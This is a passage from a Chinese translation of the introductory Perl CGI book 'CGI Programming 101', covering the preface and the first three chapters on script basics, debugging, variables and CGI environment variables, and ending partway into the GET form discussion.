






# CGI 编程101：为万维网编程 Perl（第二版）

## 关于作者
（原文标题缺失，根据内容推断此致谢部分应属作者前言）

## 致谢
这本书，以及在某种程度上我的 CGI 编程生涯，都要归功于 Joshua R. Poulson，是他最初鼓励我学习`Perl`，并且在我发现互联网以来，他一直是我最好的网络之友之一。谢谢你，Josh。

`Texas Metronet` 的 `Steve Linebarger` 在过去几年中也是我最好的网络之友之一。他教会了我很多关于 `Unix` 和系统管理的内容，忍受了我对 `MOOs`、`CGI` 和 Web 技术的愚蠢尝试，并帮助我启动了`cgi101.com`。如果没有他，我怀疑我今天是否能达到现在的高度，我非常珍惜我们的友谊。所以，谢谢你，`Steve`。

还要感谢`Jack Elmy`提供的精美封面设计；感谢`Gene Seabolt`提供的 `Quark` 教程以及耐心回答我无数的 `Quark` 问题；感谢`Monica Stephens`提供的印刷建议；以及感谢`Steve Jackson`, `Brian Cook`, `Mark Cogan` 和 `Roy Sutton`在编辑方面的帮助。

最后，我要感谢数百名给我发送电子邮件的人，他们赞扬了这本书所源自的在线课程，并给了我继续努力完成这本书的鼓励。我希望他们以及你们，能发现这本书是学习和编程 `CGI` 的宝贵资源。

- Jackie Hamilton

## 前言
本书面向 Web 设计师、创业者、学生、教师以及任何有兴趣学习 `CGI` 编程的人。开始学习不需要任何编程经验——如果你能编写 `HTML`，你就能编写 `CGI` 程序。如果你拥有一个网页并想编写 `CGI`，那么这本书就是为你准备的。

**什么是 CGI？**
"CGI"代表"通用网关接口"（Common Gateway Interface）。`CGI` 是 Web 服务器从数据库、文档和其他程序中获取数据（或向其发送数据），并通过 Web 将这些数据呈现给查看者的方法。简单来说，`CGI` 就是*为 Web 进行编程*。`CGI` 可以用任何编程语言编写，但 `Perl` 是最受欢迎的，在本书中，我们将使用 `Perl` 作为语言。

**为什么要学习 CGI？**
如果你要创建网页，那么在某个时刻你会想要添加一个计数器、一个让访问者给你发邮件或下订单的表单，或者类似的功能。`CGI` 使你能够实现这些以及更多功能。从邮件表单和计数器程序，到能即时生成整个网站的最复杂的数据库脚本，`CGI` 程序在今天的 Web 上提供了广泛的内容。如果你曾浏览过`Amazon.com`、`DejaNews` 或 `Yahoo` 等网站，并好奇他们是如何实现的……答案就是 `CGI`。目前雇主对 `CGI` 经验的需求也很高；通过学习 `CGI`，你可以大幅提高你的薪水和就业前景。

**为什么要用这本书？**
这本书将让你在短短一天内就能上手运行，教你 `CGI` 脚本的基础知识、`Perl` 的基本原理，以及处理表单和编写简单 `CGI` 的基础。然后我们将进入高级主题，例如与文件进行数据的读写、在文件中搜索数据、编写高级的多部分表单（如订单表单和店面）、使用随机性来增加页面的趣味性，以及使用服务器端包含 (SSI)、Cookies 和其他有用的 `CGI` 技巧。那些你可能认为触不可及、认为必须花钱请程序员来完成的事情……所有这些你都可以轻松地自己编写，而这本书将告诉你如何操作。

书中还包含几个极具价值的参考附录，包括其他在线 `Perl` 资源列表、`CGI` 职位搜索网站，以及 `Unix` 和密码保护的教程。

在购买本书之前，您也可以尝试此课程：前六章可在`http://www.cgi101.com/class/`在线免费阅读。

## 入门需要准备什么？
本书是为在 `Unix` 系统上使用 `Perl` 的程序员编写的。如果您不熟悉 `Unix`，不必担心；本书将教会您所需知道的所有知识。每一章都会向您展示在编写 `CGI` 时需要使用的 `Unix` 命令，此外，附录 B 中还提供了 `Unix` 命令参考和教程。如果您还没有 `Unix` shell 账户，可以通过许多 ISP 获取，包括`cgi101.com`，它提供仅限 `telnet` 的 shell 账户以及支持 `CGI`、`CGI` 辅助模块和现成脚本库的虚拟托管。访问`http://www.cgi101.com/`了解更多信息。

如果您使用的是 `Windows NT` 而非 `Unix`，您仍然可以使用本书中的大多数程序，并且学习 `Perl` 同样简单。大多数 `NT` 机器运行的 `Perl` 代码与 `Unix` 机器相同。但某些脚本将无法在您的环境下运行，因为它们是专为 `Unix` 设计的。Windows `Perl` 参考手册 (`http://www.perl.com/reference/query.cgi?windows`) 提供了一些网站链接，可以帮助您开始在 Windows 系统上使用 `CGI`。

您需要一个 `Telnet` 客户端来连接到您选择的 `Unix` 主机。如果您使用的是 Windows PC，应该已经安装了 `Telnet`；只需进入"开始->运行"并输入`telnet.exe`即可。一个新 `telnet` 窗口将打开。要连接到 `Unix` 主机，只需拉下"远程 (Remote)"菜单并选择"连接 (Connect)"。输入您要连接的主机名（如`cgi101.com`），点击"连接"，即可进入。

如果您使用的是 Mac，网上有许多免费或共享软件形式的 `Telnet` 程序，包括`BetterTelnet` (`http://www.cstone.net/%7Ebrbraun/mac/telnet/`)、`dataComet` (`http://www.databeast.com/`) 和`NiftyTelnet` (`http://andrew2.andrew.cmu.edu/dist/niftytelnet.html`)。

如果您在如何连接或将 `CGI` 上传到 `Unix` 主机方面仍需要帮助或信息，请访问`http://www.cgi101.com/class/connect.html`。

本书中所有的代码示例均可在`http://www.cgi101.com/class/`网页上获取。您可以从中下载部分或全部示例，但请尝试*首先*自己编写脚本；这样学习速度会更快。该网站还包含一些相关实用工具和现成的 `CGI` 程序库，此外还有一个您可以加入的邮件列表，以获取新材料的更新。

## 本书使用的约定
所有 `Perl` 和 `HTML` 代码都将通过缩进和使用等宽字体与正文区分开，例如：

```
print "This is a print statement.\n";
```

书中的每个程序后面都跟着一个指向其源代码的链接：
- 源代码：`http://www.cgi101.com/class/chX/script.txt`

在大多数情况下，还会包含一个指向运行示例的链接：
- 运行示例：`http://www.cgi101.com/class/chX/demo.html`

每一章在`http://www.cgi101.com/class/chX`都有自己的网页，其中 X 是章节号。第 1-6 章的全文已在线发布；其他章节则包含该章 `CGI` 脚本和 `HTML` 表单的索引、该章提到的在线资源链接、与章节内容相关的问答以及任何章节勘误。

现在，请翻到第一章，让我们开始编写 `CGI` 吧！

# 1. 入门
我们本课程选择的编程语言是 `Perl`。`Perl` 是一种简单、易学的语言，但功能强大到足以完成最困难的任务。它被广泛采用，而且您的 `Unix` 服务器上可能已经安装了它。`Perl` 是一种*解释型*语言，这意味着您不需要编译脚本——您只需编写脚本并运行它（或让 Web 服务器运行它）。脚本本身是一个简单的文本文件；`Perl` 解释器负责执行所有工作。这样做的好处是，您可以将脚本在几乎不作修改的情况下复制到任何装有 `Perl` 解释器的机器上。缺点是，直到您运行脚本时，您才会发现其中的 Bug。

您可以在本地机器上编辑 `Perl` 脚本（使用您喜欢的文本编辑器——记事本、`Simpletext` 等），也可以在 `Unix` shell 中编辑。如果您使用 `Unix`，请尝试 `pico` —— 这是一个非常简单、易用的文本编辑器。只需输入`pico filename`即可创建或编辑文件。输入`man pico`以获取更多关于 `pico` 的信息和指令。如果您不熟悉 `Unix` shell，请参阅附录 B 的 `Unix` 教程和命令参考。

您也可以在本地机器上使用文本编辑器，然后将完成的脚本上传到 `Unix` 服务器。请务必使用纯文本编辑器，如记事本 (PC) 或 `BBEdit` (Mac)，并关闭智能引号等特殊字符——`CGI` 文件必须是普通文本。此外，至关重要的是，您必须将 `CGI` 作为文本上传，**而不是**二进制格式。如果您将其作为二进制文件上传，行尾会出现许多控制字符，这将导致脚本崩溃。只要将*所有内容*作为文本上传，您就可以省去很多时间和烦恼（除非您在上传图片——例如 `GIF` 或 `JPEG`——或其他二进制数据。`HTML` 和 `Perl` `CGI` 不是二进制文件，它们是纯文本）。

一旦脚本上传到 `Unix` 服务器，您需要确保将其移动到`public_html`目录（或您为网页设置的任何目录）。然后，您还需要更改文件的权限，使其能够被系统"执行"（或运行）。在 `Unix` 中，该命令为：

```
chmod 755 filename
```

这会设置文件权限，使您可以读取、写入和执行该文件，而所有其他用户（包括 Web 服务器）可以读取和执行它。有关`chmod`及其选项的完整描述，请参阅附录 B。

大多数 `FTP` 程序也允许您更改文件权限：如果您使用 `FTP` 客户端更改权限，请确保文件对所有人可读且可执行，且仅对所有者（您）可写。

最后一点注意：`Perl` 代码是区分大小写的，`Unix` 命令和文件名也是如此。在编写首个脚本时请记住这一点，因为在 `Unix` 中 "perl" 与 "PERL" 是不同的。

## Perl 脚本基础
您可能已经熟悉 `HTML`，因此您知道 `HTML` 文档的结构中某些内容是必需的，例如`<HEAD>`和`<BODY>`标签，并且像链接和图像等其他标签有特定的允许语法。`Perl` 非常相似；它有明确定义的语法，如果您遵循这些语法规则，编写 `Perl` 将像编写 `HTML` 一样简单。

如果您在 `Unix` 上创建脚本，每份脚本的第一行都需要一条语句，告诉服务器这是一个 `Perl` 脚本，以及在哪里可以找到 `Perl` 解释器。在大多数脚本中，该语句如下所示：

```
#!/usr/bin/perl
```

目前，该语句所在的行通常不应有其他内容。（那里有一些您可以使用标志，但我们稍后会详细讨论。）如果您不确定 `Perl` 在您的系统中的位置，请尝试输入这些命令：

```
which perl OR whereis perl
```

如果系统能找到它，它会告诉您 `Perl` 的路径名。这个路径就是您应该放在上述语句中的内容。

在上述行之后，您将编写 `Perl` 代码。大多数 `Perl` 代码行必须以分号 (;) 结尾，除非是循环和条件块的起始和结束行。我们稍后会讨论这些。

让我们编写第一个简单的程序。将以下行输入到一个新文件中，并将其命名为 "first.pl"。

```
#!/usr/bin/perl
print "Hello, world!\n";
```

源代码：`http://www.cgi101.com/class/ch1/first.txt`

保存文件。现在，在 `Unix` shell 中，您需要输入：

```
chmod 755 first.pl
```

这会更改文件权限，允许您运行该程序。每次创建新脚本时，您都必须执行此操作；但是，如果您编辑的是现有脚本，权限将保持不变，无需再次更改。

现在，在 `Unix` shell 中，您需要输入以下内容来运行脚本：

```
./first.pl
```

如果一切顺利，您应该看到屏幕上打印出`Hello, world!`。

**注意：** 该程序不是一个 `CGI`，如果您尝试通过浏览器运行它，它将无法工作。但它可以很容易地转换为 `CGI`，请参阅下文。

## CGI 脚本基础
`CGI` 程序仍然是一个 `Perl` 脚本。但一个重要的区别是，`CGI` 通常会生成一个网页（例如，表单处理 `CGI`，如访客簿，通常...

如果你正在编写一个用于生成 `HTML` 页面的 `CGI`，你必须在脚本中的某个位置包含以下语句，且必须在打印任何其他内容*之前*：

```
print "Content-type:text/html\n\n";
```

这是一个内容标头，用于告知接收端的 Web 浏览器它即将接收到什么类型的数据——在本例中是一个 `HTML` 文档。如果你忘记包含它，或者在打印此标头之前打印了其他内容，那么在尝试访问该 `CGI` 时，你会收到一个"Internal Server Error"（内部服务器错误）。一个简单的经验法则是将`Content-type`行放在脚本的顶部（紧跟在`#!/usr/bin/perl`行下方）。

现在让我们拿最初的`first.pl`脚本，将其改为一个显示网页的 `CGI` 脚本。如果你在允许在`public_html`目录中运行 `CGI` 的 `Unix` 服务器上运行此脚本，你可能需要将文件重命名为`first.cgi`。（许多 Web 服务器仅在文件名具有`.cgi`扩展名时才会执行 `CGI`。）它看起来应该是这样的：

```
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print "<html><head><title>Test Page</title></head>\n";
print "<body>\n";
print "<h2>Hello, world!</h2>\n";
print "</body></html>\n";
```

- 源代码：`http://www.cgi101.com/class/ch1/firstcgi.txt`
- 运行示例：`http://www.cgi101.com/class/ch1/firstcgi.cgi`

保存此文件并在 `Unix` shell 中运行它（就像你运行另一个脚本那样），输入`./first.cgi`。注意到该脚本的输出是 `HTML` 吗？这就是它应该实现的功能，但如果你的脚本中存在错误，`Perl` 解释器会告诉你行号以及实际错误的简短描述。这一点在以后非常重要，因为当你编写更长、更复杂的脚本时，可能会出现错误，而你在网页上看到的错误消息（500 Server Error）对于调试完全没有帮助。

现在让我们通过浏览器调用这个 `CGI`。只需将其移动到你的`public_html`或`cgi-bin`目录中，然后输入该 `CGI` 的直接 `URL`。例如：

```
http://www.cgi101.com/class/ch1/first.cgi
```

在您自己的 Web 目录中尝试一下。它应该返回一个带有"Hello, world!"字样的网页。（如果没有，请参阅下文的"调试脚本"。）

另一种编写上述 `CGI` 的方法是不使用多个`print`语句，如下所示：

```
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print <<EndOfHTML;
<html><head><title>Test Page</title></head>
<body>
<h2>Hello, world!</h2>
</body></html>
EndOfHTML
```

- 源代码：`http://www.cgi101.com/class/ch1/firstcgi2.txt`
- 运行示例：`http://www.cgi101.com/class/ch1/firstcgi2.cgi`

这是 "here-doc" 语法。请注意，在该语句中，`<<`和`EndOfHTML`之间没有空格：

```
print <<EndOfHTML;
```

此外，尽管该脚本在此页面上显示为缩进，但在你的 `CGI` 中，每一行都应该从第 1 列开始——尤其是单独一行的"EndOfHTML"。如果`EndOfHTML`前哪怕只有一个空格，你都会收到错误，且脚本无法运行。

这种显示 `HTML` 的方式在未来的 `CGI` 中会变得更加有用，因为它不需要像普通`print`语句那样对嵌入的引号进行转义：

```
print "<a href=\"http://lightsphere.com/\">foo</a>";
```

请注意，为了使上述代码生效，`URL` 两侧的引号必须在前面加上反斜杠进行转义，因为 `Perl` 字符串是用"引号"包围的——在被引号包围的字符串中嵌入另一个引号的唯一方法就是对其进行转义，例如："John \"Q.\" Public"。

## 调试脚本
你的 `CGI` 可能会出现许多问题，不幸的是，Web 服务器在遇到错误时的默认响应（令人恐惧的"Internal Server Error"）对于弄清楚发生了什么并没有太大帮助。

如果你看到的是实际的 `Perl` 脚本代码而不是 `CGI` 期望的输出页面，这意味着两种情况之一：要么你没有将文件重命名为`.cgi`扩展名（可能你还叫它 "first.pl"），要么你的 Web 服务器没有配置为运行 `CGI`（至少在你的目录中没有配置）。你需要询问你的 Web 管理员如何在服务器上运行 `CGI`。如果你本身就是 Web 管理员，请检查服务器文档以了解如何在用户目录中启用 `CGI`。

如果你收到 Internal Server Error，说明你的脚本中有一个 bug。首先，尝试在 `Unix` shell 的命令行中运行该 `CGI`。以下命令将在不实际运行脚本的情况下检查其语法：

```
perl -c scriptname.cgi
```

你还可以尝试使用`-w`标志（代表 "warnings"），以报告任何不安全的 `Perl` 结构：

```
perl -cw scriptname.cgi
```

这将报告脚本中的任何语法错误，并警告你使用不当之处。例如：

```
% perl -cw urllist2.cgi
syntax error at urllist2.cgi line 9, near "print"
urllist2.cgi had compilation errors.
```

这告诉你第 9 行或其附近存在问题：请确保前一行没有忘记闭合分号，并检查是否有其他拼写错误。同时确保你将文件保存并上传为纯文本——隐藏的控制字符或智能引号（smartquotes）也会导致语法错误。


如果`perl -cw`命令表明语法正确，那么调试将需要更多工作。这意味着你的脚本在运行时崩溃了；可能是输入数据引起了问题。获取更多信息的一种方法是查看服务器日志文件。首先你得找出日志的位置。常见位置包括`/usr/local/etc/httpd/logs/error_log`或`/var/log/httpd/error_log`。使用`tail`命令查看日志文件的末尾：

```
tail /var/log/httpd/logs/error_log
```

文件的最后一行应该是你的错误消息。以下是一些来自错误日志的示例错误：

```
[Fri Mar 26 02:06:10 1999] access to /home/class/ch1/testy.cgi
failed for 205.188.198.46, reason: malformed header from
script.
In string, @yahoo now must be written as \@yahoo at
/home/class/ch1/testy.cgi line 331, near "@yahoo"
Execution of /home/class/ch1/testy.cgi aborted due to compila-
tion errors.
[Fri Mar 26 10:04:31 1999] access to /home/class/ch1/testy.cgi
failed for 204.87.75.235, reason: Premature end of script head-
ers
```

“malformed header”（格式错误的标头）或“premature end of script headers”（脚本标头提前结束）可能意味着你在打印“Content-type:text/html”行之前打印了其他内容，或者你的脚本崩溃了。日志中通常也会出现一个错误，指出脚本在何处崩溃；在上面的示例中，电子邮件地址中的`@`符号（“@yahoo”）没有用反斜杠转义。当然，如果你对该脚本运行`perl -cw`，这样的错误也会出现：这个示例只是展示它在服务器日志中是如何显示的。

## 资源

访问`http://www.cgi101.com/class/ch1/`获取本章的源代码和链接。

# 2 Perl 变量

在进一步学习 Perl 之前，你需要对变量有一定的了解。变量只是一个存储值的地方，以便你在整个程序中引用它或对其进行操作。Perl 有三种类型的变量：标量（scalars）、数组（arrays）和哈希（hashes）。

标量变量存储单个（标量）值。Perl 标量名称前缀为一个美元符号（`$`），因此例如`$x`、`$y`、`$z`、`$username`和`$url`都是标量变量名称的示例。变量的使用方法如下：

```
$foo = 1;
$name = "Fred";
$pi = 3.141592;
```

在使用变量之前不需要对其进行声明：直接将其放入代码中即可。标量可以保存任何类型的数据，无论是字符串、数字还是其他任何内容。你还可以将标量放入双引号字符串中：

```
$fnord = 23;
$blee = "The magic number is $fnord.";
```

现在如果你打印`$blee`，你将得到“The magic number is 23.”

让我们再次编辑`first.pl`并为其添加一些标量：

```
#!/usr/bin/perl
$classname = "CGI Programming 101";
print "Hello there. What is your name?\n";
$you = <STDIN>;
chomp($you);
print "Hello, $you. Welcome to $classname.\n";
```

源代码：`http://www.cgi101.com/class/ch2/first.txt`

在 Unix shell 中保存并运行该脚本。（此程序不能作为 CGI 工作。）这次，程序会提示你输入姓名，并使用以下行读取你的姓名：

```
$you = <STDIN>;
```

`STDIN` 是标准输入。这是脚本的默认输入通道：如果你在 shell 中运行脚本，`STDIN`就是脚本运行时你输入的任何内容。

程序会打印"Hello there. What is your name?"，然后暂停并等待你输入内容。（输入姓名后务必按回车键。）你输入的任何内容都会存储在标量变量`$you`中。由于`$you`也包含回车符本身，我们使用：

```
chomp($you);
```

来删除你输入的字符串末尾的回车符。以下`print`语句：

```
print "Hello, $you. Welcome to $classname.\n";
```

会替换你输入的`$you`的值。行尾的`\n`是 Perl 语法中的回车符（也称为换行符或行馈送）。

## 数组

数组存储一组值。标量变量只能存储一个值，而数组可以存储多个值。Perl 数组名称以 at 符号（`@`）为前缀。以下是一个示例：

```
@colors = ("red","green","blue");
```

在 Perl 中，数组索引从 0 开始，因此要引用数组`@colors`的第一个元素，你需要使用`$colors[0]`。请注意，当你引用数组的单个元素时，你需要在名称前加上`$`而不是`@`。`$`符号再次表示它是一个单独的（标量）值；`@`符号表示你正在谈论整个数组。

如果你想遍历数组并打印出所有值，你可以逐个打印每个元素：

```
#!/usr/bin/perl
# this is a comment
# any line that starts with a "#" is a comment.

@colors = ("red","green","blue");

print "$colors[0]\n";
print "$colors[1]\n";
print "$colors[2]\n";
```

或者，更简单的方法是使用`foreach`构造：

```
#!/usr/bin/perl
# this is a comment
# any line that starts with a "#" is a comment.

@colors = ("red","green","blue");
foreach $i (@colors) {
    print "$i\n";
}
```

在循环的每次迭代中，`$i`被设置为`@colors`数组的一个元素。在上面的例子中，`$i`在第一次循环时是"red"。花括号`{}`定义了循环的开始和结束，因此对于出现在花括号之间的任何代码，`$i`都被设置为当前的循环迭代器。

## 数组函数

由于数组是一个有序的元素列表，你可以使用许多函数来从列表中获取数据（或向列表中放入数据）：

```
@colors = ("red","green","blue","cyan","magenta","black",
           "yellow");

$elt = pop(@colors);            # returns "yellow", the last value
                                # of the array.
$elt = shift(@colors);          # returns "red", the first value
                                # of the array.
```

在这些例子中，我们将`$elt`设置为返回的值，但如果你只是想删除数组的第一个值，例如，你只需`shift(@arrayname)`。`shift`和`pop`都会影响数组本身，通过删除一个元素。在上面的例子中，当你从`@colors`末尾弹出"yellow"后，数组就变成了("red", "green", "blue", "cyan", "magenta", "black")。而当你从开头`shift`"red"后，数组就变成了("green", "blue", "cyan", "magenta", "black")。

你也可以向数组添加数据：

```
@colors = ("green", "blue", "cyan", "magenta", "black");
push(@colors,"orange");     # adds "orange" to the end of the
                             # @colors array
```

`@colors`现在变成了("green", "blue", "cyan", "magenta", "black", "orange")。

```
@morecolors = ("purple","teal","azure");
push(@colors,@morecolors);  # appends the values in @morecolors
                           # to the end of @colors
```

`@colors`现在变成了("green", "blue", "cyan", "magenta", "black", "orange", "purple", "teal", "azure")。

以下是一些用于数组操作的其他有用函数：

```
@colors = ("green", "blue", "cyan", "magenta", "black");
sort(@colors)        # sorts the values of @colors
                    # alphabetically
```

`@colors`现在变成了("black", "blue", "cyan", "green", "magenta")。请注意，`sort`不会更改数组本身的实际值，因此如果你想保存排序后的数组，你必须这样做：

```
@sortedlist = sort(@colors);
```

`reverse`函数也是如此：

```
@colors = ("green", "blue", "cyan", "magenta", "black");
reverse(@colors)   # inverts the @colors array
```

`@colors`现在变成了("black", "magenta", "cyan", "blue", "green")。同样，如果你想保存反转后的列表，你必须将其赋值给另一个数组。

```
$#colors   # length-1 of the @colors array, or
           # the last index of the array
```

在这个例子中，`$#colors`是 4。数组的实际长度是 5，但由于 Perl 列表从 0 开始计数，最后一个元素的索引是 length - 1。如果你想要数组的实际长度（元素个数），你应该使用`scalar`函数：

```
scalar(@colors); # the actual length of the array
```

在这种情况下，`scalar(@colors)`等于 5。

```
join(", ",@colors) # joins @colors into a single
# string separated by the
# expression ", "
```

`@colors`变成一个单独的字符串："black, magenta, cyan, blue, green"。

## 哈希

哈希是一种特殊的数组——关联数组，或成对的元素组。Perl 哈希名称以百分比符号（`%`）为前缀，由成对的元素——一个键和一个数据值组成。以下是定义哈希的方法：

| 哈希名称 | 键 | 值 |
|---|---|---|
| `%pages = ("fred",` | `"http://www.cgi101.com/~fred/"` |  |
| `"beth",` | `"http://www.cgi101.com/~beth/"` |  |
| `"john",` | `"http://www.cgi101.com/~john/");` |  |

另一种定义哈希的方法如下：

```
%pages = ( fred => "http://www.cgi101.com/~fred/",
           beth => "http://www.cgi101.com/~beth/",
           john => "http://www.cgi101.com/~john/" );
```

`=>`运算符是`,`的同义词。它还会自动引用参数的左侧，因此不需要加引号。

这个哈希由一个人的姓名作为键，以及他们的 URI 作为数据元素组成。你使用`$`符号（就像你处理数组一样）来引用哈希的各个元素，像这样：

```
$pages{'fred'}
```

在这种情况下，"fred"是键，而`$pages{'fred'}`是与该键关联的值——在这种情况下，它将是"http://www.cgi101.com/~fred/"。

如果你想打印出哈希中的所有值，你需要一个`foreach`循环，如下所示：

```
foreach $key (keys %pages) {
    print "$key's page: $pages{$key}\n";
}
```

这个例子使用了`keys`函数，它返回一个仅由指定哈希的键组成的数组。一个缺点是`keys %hashname`会以随机顺序返回键——在这个例子中，`keys %pages`可能返回("fred", "beth", "john")或("beth", "fred", "john")或三者的任何组合。如果你想按确切顺序打印哈希，你必须在`foreach`循环中指定键：

```
foreach $key ("fred", "beth", "john") {
    print "$key's page: $pages{$key}\n";
}
```

当你使用解析表单数据的 CGI 时，哈希将特别有用，因为你将能够执行类似`$FORM{'lastname'}`的操作来引用表单的"lastname"输入字段。

让我们使用上面的哈希编写一个简单的 CGI，来创建一个链接页面：

```
#!/usr/bin/perl
#
# the # sign is a comment in Perl
%pages = ( "fred" => "http://www.cgi101.com/~fred/",
           "beth" => "http://www.cgi101.com/~beth/",
           "john" => "http://www.cgi101.com/~john/" );

print "Content-type:text/html\n\n";
print <<EndHdr;
<html><head><title>URL List</title></head>
<body bgcolor="#ffffff">
<p>
<h2>URL List</h2>
<ul>
EndHdr

foreach $key (keys %pages) {
    print "<li><a href=\"$pages{$key}\">$key</a>\n";
}

print <<EndFooter;
</ul>
<p>
</body>
</html>
EndFooter
```

源代码：`http://www.cgi101.com/class/ch2/urllist.txt`

工作示例：`http://www.cgi101.com/class/ch2/urllist.cgi`

将其命名为`urllist.cgi`，保存它，并更改权限使其可执行。然后在你的网络浏览器中调用它。你应该会得到一个页面，列出每个人的名字，并链接到他们的实际 URL。

第 3 章将扩展这个概念，我们将研究环境变量和 POST 表单的 GET 方法。

## 哈希函数

以下是你在处理哈希时可以使用的 Perl 函数的快速概述。

```
delete $hash{$key}  # deletes the specified key/value pair,
                    # and returns the deleted value

exists $hash{$key}  # returns true if the specified key exists
                    # in the hash.

keys %hash          # returns a list of keys for that hash

values %hash        # returns a list of values for that hash

scalar %hash        # returns true if the hash has elements
                    # defined (e.g. it's not an empty hash)
```

## 资源

访问`http://www.cgi101.com/class/ch2/`获取本章的源代码和链接。

# 3 CGI 环境变量

环境变量是一系列由 Web 服务器发送给每个运行的 CGI 的隐藏值。你的 CGI 可以解析这些变量并使用其中发送的数据。环境变量存储在一个名为`%ENV`的哈希（hash）中。

| 变量名称 | 值 |
|---|---|
| `DOCUMENT_ROOT` | 服务器的根目录 |
| `HTTP_COOKIE` | 访问者的 Cookie（如果已设置） |
| `HTTP_HOST` | 服务器的主机名 |
| `HTTP_REFERER` | 调用该脚本的页面的 URL |


| `HTTP_USER_AGENT` | 访问者的浏览器类型 |
| `HTTPS` | 如果脚本是通过安全服务器调用的，则为 "on" |
| `PATH` | 服务器运行的系统路径 |
| `QUERY_STRING` | 查询字符串（见下文 GET 部分） |
| `REMOTE_ADDR` | 访问者的 IP 地址 |
| `REMOTE_HOST` | 访问者的主机名（如果你的服务器开启了反向名称解析；否则这仍然是 IP 地址） |
| `REMOTE_PORT` | 访问者连接到 Web 服务器的端口 |
| `REMOTE_USER` | 访问者的用户名（用于 .htaccess 保护的页面） |
| `REQUEST_METHOD` | GET 或 POST |
| `REQUEST_URI` | 请求文档或 CGI 的解释路径（相对于文档根目录） |
| `SCRIPT_FILENAME` | 当前 CGI 的完整路径名 |
| `SCRIPT_NAME` | 当前 CGI 的解释路径名（相对于文档根目录） |
| `SERVER_ADMIN` | 服务器管理员的电子邮件地址 |
| `SERVER_NAME` | 服务器的完全限定域名（例如 www.cgi101.com） |
| `SERVER_PORT` | 服务器监听的端口号 |
| `SERVER_SOFTWARE` | 你使用的服务器软件（例如 Apache 1.3） |

一些服务器还会设置其他环境变量；请查看你的服务器文档以获取更多信息。请注意，某些环境变量提供关于服务器的信息，且在不同 CGI 之间不会改变（如 `SERVER_NAME` 和 `SERVER_ADMIN`），而另一些则提供关于访问者的信息，每次有人访问脚本时都会不同。

并非所有环境变量都会为每个 CGI 设置。`REMOTE_USER` 仅在通过 `.htaccess` 文件进行密码保护的目录或子目录中的页面上设置。（请参阅附录 C 了解如何对目录进行密码保护。）即便如此，`REMOTE_USER` 也将是 `.htaccess` 文件中出现的用户名，而不是该人的电子邮件地址。除了直接向他们询问（通过表单）之外，没有可靠的方法可以获取一个人的电子邮件地址。

`%ENV` 哈希会自动为每个 CGI 设置，你可以根据需要使用其中的任何或全部内容。例如，如果你想打印出调用你的 CGI 的页面 URL，你可以这样做：

```
print "Caller = $ENV{'HTTP_REFERER'}\n";
```

打印出所有环境变量非常简单，而且 `ENV` 数组中的某些值在以后会对你有用，所以让我们尝试一下。创建一个新文件，命名为 `env.cgi`。编辑如下：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";
print <<EndOfHTML;
<html><head><title>Print Environment</title></head>
<body>
EndOfHTML

foreach $key (sort(keys %ENV)) {
    print "$key = $ENV{$key}<br>\n";
}

print "</body></html>";
```

源代码：http://www.cgi101.com/class/ch3/env.txt

运行示例：http://www.cgi101.com/class/ch3/env.cgi

保存上述 CGI，为其设置 chmod 权限，然后在 Web 浏览器中调用它。记住，如果你遇到服务器错误，你可能需要回到 Unix shell 的命令行中尝试运行该脚本，以查看问题出在哪里。（但请注意，如果你在 shell 中运行 `env.cgi`，你将得到一套完全不同的环境变量。）

在这个例子中，我们使用 `sort` 函数对 `ENV` 哈希的键进行了排序，以便它们按字母顺序打印。Perl 的 `sort` 函数默认比较数组中每个元素的字符串值——这意味着它不能正确地对数字进行排序。幸运的是，排序可以自定义。我们将在第 8 章中介绍数字排序和自定义排序。

## 简单的查询表单

有两种将数据从 HTML 表单发送到 CGI 的方法：GET 和 POST。这些方法决定了表单数据如何发送到服务器。在 GET 方法中，来自表单的输入值作为 URL 的一部分发送，并保存在 `QUERY_STRING` 环境变量中。在 POST 方法中，数据作为输入流发送给程序。我们将在下一章讨论 POST，但现在让我们看看 GET 方法。

你可以通过多种方式设置 `QUERY_STRING` 的值。例如，这里有几个指向 `env.cgi` 脚本的直接链接：

```
http://www.cgi101.com/class/ch3/env.cgi?test1
http://www.cgi101.com/class/ch3/env.cgi?test2
http://www.cgi101.com/class/ch3/env.cgi?test3
```

尝试在 Web 浏览器中打开这些链接。你会注意到 `QUERY_STRING` 被设置为 URL 中问号之后出现的任何内容。在上面的例子中，它分别被设置为 "test1"、"test2" 和 "test3"。通过使用 GET 方法建立一个简单的表单，可以将此操作进一步推进。以下是这样一个示例的 HTML：

```
<form action="env.cgi" method="GET">
 Enter some text here: <input type="text" name="sample_text"
 size=30><input type="submit"></p>
</form>
```

创建上述表单（命名为 `form.html`），并在浏览器中调用它。在字段中输入一些内容并按回车。你会得到相同的 `env.cgi` 输出，但这次你会注意到查询字符串分为两部分。它看起来应该是这样的：

```
sample_text=whatever+you+typed
```

左边的值是表单字段的实际名称。右边的值是你输入到输入框中的任何内容。你可能会注意到，你输入的字符串中的任何空格都被替换成了 `+`。同样，各种标点符号和其他特殊的非字母数字字符被替换成了 `%-code`。这被称为 *URL-encoding*（URL 编码），在使用 GET 或 POST 方法提交数据时都会发生。

你的 Perl 脚本可以将此信息转换回来，但在发送较长或较复杂的数据时，使用 POST 方法通常更容易。GET 主要适用于简短的单字段查询，特别是像数据库搜索之类的事情。

你可以使用 GET 发送多个输入数据值：

```
